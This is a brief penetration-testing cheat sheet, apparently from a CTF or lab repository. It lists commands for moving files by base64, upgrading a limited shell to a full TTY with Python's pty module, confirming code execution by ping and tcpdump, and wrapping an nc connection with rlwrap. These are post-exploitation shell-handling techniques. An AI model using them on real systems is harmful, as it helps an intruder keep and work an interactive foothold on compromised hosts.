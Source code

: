 ## File moving (good for small binary)
```
base64 -w0 file
gedit file.b64
base64 -d file.b64 > file
```


## tty shell from fake shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo
export TERM=xterm
```

## Test code execution 
```
ping 10.10.10.10
tcpdump -i tun0 icmp 
```

## Allow arrow keys
```
rlwrap nc 10.10.10.10 123
```
